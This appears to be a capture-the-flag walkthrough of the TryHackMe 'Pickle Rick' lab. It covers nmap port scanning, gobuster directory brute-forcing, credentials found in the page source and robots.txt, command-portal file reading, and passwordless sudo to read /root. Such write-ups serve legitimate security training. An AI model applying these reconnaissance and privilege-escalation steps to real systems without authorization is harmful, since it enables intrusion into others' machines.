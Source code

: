 # TryHackMe - Pickle Rick Walkthrough
---

## 1. Scanning

First, we start by scanning the target machine to see which ports are open.

```bash
nmap -T4 -sC -sV -A -p- 10.201.75.114
```
**Sample Output:**
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu
80/tcp open  http    Apache httpd 2.4.41
```
**Command Breakdown:**
- `-T4`: Set the speed of the scan (faster than default)
- `-sC`: Run default NSE scripts for discovery
- `-sV`: Attempt to determine the version of services
- `-A`: Enable OS detection, version detection, script scanning.
- `-p-`: Scan all ports
- SSH (22) is open → we may need credentials later.
- HTTP (80) is open → a website exists to explore.

---

## 2. Accessing the Website

We launch a browser (Firefox in our case) and type:

```
http://10.201.75.114
```

This loads the main webpage. Inspecting the page source reveals a username:

```
Username: R1ckRul3s
```

We take note of this username to use later for login.

---

## 3. Finding Hidden Directories

We use `gobuster` to enumerate hidden directories:

```bash
sudo gobuster dir -u 10.201.74.72 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,js,py,html

```

**Command Breakdown:**
- `-u`: Target URL
- `-w`: Wordlist for brute-forcing directories
- `-x`: File extensions to check

**Sample Output:**
```
/assets          (Status: 301)
/login.php       (Status: 200)
/portal.php      (Status: 200)
/robots.txt      (Status: 200)
```

We see `login.php`, `portal.php`, `assets/`, and `robots.txt`.

---

## 4. Finding the Password

Checking `robots.txt` via browser or curl:

```bash
curl http://10.201.75.114/robots.txt
```

**Output:**
```
Wubbalubbadubdub
```

This is our password. Now we can log in to `login.php` using:

- Username: `R1ckRul3s`
- Password: `Wubbalubbadubdub`

---

## 5. Accessing the Command Portal

Once logged in, we enter the **command portal**, which lets us run commands.

- First, check existing commands (files):

```bash
ls
```

**Output:**
```
Sup3rS3cretPickl3Ingred.txt
clue.txt
```

The first ingredient is in `Sup3rS3cretPickl3Ingred.txt`. Access it via:

```bash
curl http://10.201.75.114/Sup3rS3cretPickl3Ingred.txt
```

**Output:**
```
[First ingredient content]
```

---

## 6. Finding the Second Ingredient

Open `clue.txt` to get hints:

```bash
cat clue.txt
```

Hint mentions the file system → check `/home` directory:

```bash
ls /home
```

**Output:**
```
rick
ubuntu
```

Go into `rick` directory:

```bash
ls /home/rick
```

**Output:**
```
second ingredients
```

`cat` may be disabled, so we use `less` instead:

```bash
less '/home/rick/second ingredients'
```

**Output:**
```
[Second ingredient content]
```

**Explanation of `less`:**
- `less` lets you read files even if other commands (like `cat`) are blocked.
- Scrolls through content interactively without executing anything.
- [less-about](https://en.wikipedia.org/wiki/Less_(Unix))

---

## 7. Finding the Third Ingredient

Check `/root` directory:

```bash
ls /root
```

We do **not** have permission. Use `sudo` to elevate privileges:

```bash
sudo -l
```

**Output:**
```
User R1ckRul3s may run commands as root without password
```

Check contents of `/root`:

```bash
sudo ls /root
```

**Output:**
```
3rd.txt
```

Read the file using `less` with sudo:

```bash
sudo less /root/3rd.txt
```

**Output:**
```
[Third ingredient content]
```

**Explanation of `sudo`:**
- `sudo` allows running commands as the root user.
- `sudo -l` lists allowed commands without needing a password.

---

## 8. Summary of Ingredients

1. `Sup3rS3cretPickl3Ingred.txt` → First ingredient
2. `/home/rick/second ingredients` → Second ingredient
3. `/root/3rd.txt` → Third ingredient

---

# Congrats!
You have completed the Pickle Rick challenge on TryHackMe.
